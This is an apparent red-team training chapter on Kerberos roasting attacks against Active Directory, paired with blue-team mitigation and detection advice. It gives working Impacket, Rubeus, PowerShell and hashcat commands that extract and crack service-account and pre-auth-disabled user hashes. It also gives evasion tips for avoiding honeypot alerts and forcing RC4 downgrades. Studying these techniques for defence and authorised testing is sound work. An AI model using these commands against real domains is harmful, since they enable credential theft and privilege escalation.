


# Kerberos Attacks I: Roasting & Encryption

> **Executive Summary**: Kerberos is the backbone of AD security, but it has features that allow offline password cracking. **Kerberoasting** and **AS-REP Roasting** are the two primary methods to extract password hashes from Active Directory without sending a single packet to the victim user. They abuse legitimate protocol features (Service Tickets and Pre-Auth).

## 1. Learning Objectives
By the end of this chapter, you will be able to:
- **Perform AS-REP Roasting**: Identify users with Pre-Auth disabled and crack their keys.
- **Master Kerberoasting**: Request Service Tickets for SPNs and crack them.
- **Understand Encryption**: Differentiate between RC4 (ArCFour), AES128, and AES256 in Kerberos.
- **Use Tools**: Rubeus, Impacket, and Hashcat.

## 2. Core Concepts: The Weakness

### 2.1 Pre-Authentication
Normally, when a user asks the KDC for a TGT (AS-REQ), they encrypt a timestamp with their password hash. This proves they are who they say they are.
- **Vulnerability**: If "Do not require Kerberos preauthentication" (`DONT_REQ_PREAUTH`) is checked in AD for a user, *anyone* can ask for a TGT for that user.
- **Result**: The KDC returns an AS-REP encrypted with the user's password hash. We can crack this offline (**AS-REP Roasting**).

### 2.2 Service Tickets & SPNs
Any valid user can request a Service Ticket (ST) for any service registered in AD (via Service Principal Name, SPN).
- **Vulnerability**: The ST is encrypted with the Service Account's password hash.
- **Result**: We request tickets for `MSSQLSvc/sql01`, receive the blob, and crack it offline (**Kerberoasting**).

### 2.3 Encryption Types (ETypes)
- **RC4 (Type 23)**: Weak. Fast to crack. Attackers try to downgrade to this.
- **AES-128 (Type 17)**: Stronger.
- **AES-256 (Type 18)**: Standard. Hardest to crack.

## 3. Deep Dive: AS-REP Roasting

### 3.1 Identification
- **PowerView**: `Get-DomainUser -PreauthNotRequired`
- **BloodHound**: Look for the "AS-REP Roastable" node property.

### 3.2 Execution
**Impacket**:
```bash
GetNPUsers.py domain.local/ -usersfile users.txt -format hashcat -outputfile hashes.asrep
```
**Rubeus**:
```powershell
.\Rubeus.exe asreproast /format:hashcat /outfile:hashes.asrep
```

### 3.3 Cracking
```bash
hashcat -m 18200 hashes.asrep rockyou.txt
```

## 4. Deep Dive: Kerberoasting

### 4.1 Identification
Find users who have an SPN set (`servicePrincipalName` attribute).
- **PowerView**: `Get-NetUser -SPN`
- **ADModule**: `Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName`

### 4.2 Execution
**Impacket**:
```bash
GetUserSPNs.py domain.local/user:password -request -outputfile hashes.kerb
```
**Rubeus**:
```powershell
.\Rubeus.exe kerberoast /outfile:hashes.kerb
```
**Targeted**:
```powershell
.\Rubeus.exe kerberoast /user:sql_svc /outfile:sql.hash
```

### 4.3 Cracking
```bash
hashcat -m 13100 hashes.kerb rockyou.txt
```

## 5. Red Team Perspective

### 5.1 OpSec Considerations
- **Noise**: Requesting 500 Service Tickets in 1 second is suspicious. Use Rubeus `/stats` to check first.
- **Honeypots**: Blue Teams create fake Service Accounts with SPNs but strong passwords (uncrackable). If you roast them, you trigger an alert (Event 4769).

### 5.2 Encryption Downgrade
If the domain supports AES, tickets will use AES (hard to crack).
- **Trick**: Modify the request to say "I only support RC4".
- **Rubeus**: `kerberoast /rc4opsec` (Requests RC4 if available).

## 6. Blue Team Perspective

### 6.1 Mitigation
- **AS-REP**: Audit all users. Enable Pre-Auth. (There is rarely a reason to disable it).
- **Kerberoasting**: You cannot stop it (it's a feature). Mitigation is **Strong Passwords** (>25 chars) for Service Accounts. Managed Service Accounts (gMSA) rotate passwords automatically and are immune to cracking.

### 6.2 Detection
- **Volume**: Alert on high volume of TGS-REQ (Event 4769) from a single user.
- **Encryption**: Alert on RC4 (0x17) requests in an AES environment.

## 7. Practical Lab: Roast & Crack

### Scenario: The Database Admin
**Target**: `sql_svc` account.

**Step 1: Find it**
```powershell
setspn -Q */* | findstr "sql"
```

**Step 2: Roast (Native PowerShell)**
If you can't use tools:
```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/sql01.corp.local"
```
Then export the ticket from memory using Mimikatz or Klist.

**Step 3: Hashcat**
Run hashcat on your GPU rig.

## 8. Diagrams

### The Roasting Attack Surface



## 9. Critical Analysis

### The "Service Account" Paradox
Service accounts need high privileges (often Local Admin or Domain Admin) to run apps, but they are rarely managed by humans, so passwords effectively never change. This makes Kerberoasting the most reliable path to PrivEsc in AD.

### Interview Questions
1.  **Q**: Why is AS-REP Roasting faster than Kerberoasting?
    -   **A**: AS-REP roasting only requires a username. You don't need to be authenticated to the domain (if you can talk to the DC). Kerberoasting requires a valid TGT (you must be an authenticated user first).
2.  **Q**: What hash type is 13100?
    -   **A**: Kerberos 5 TGS-REP etype 23 (RC4).

## 10. References
- [[04_Windows_AD/04_Authentication_Protocols_Windows]]
- [[06_Active_Directory_Attacks/01_Credential_Harvesting]]
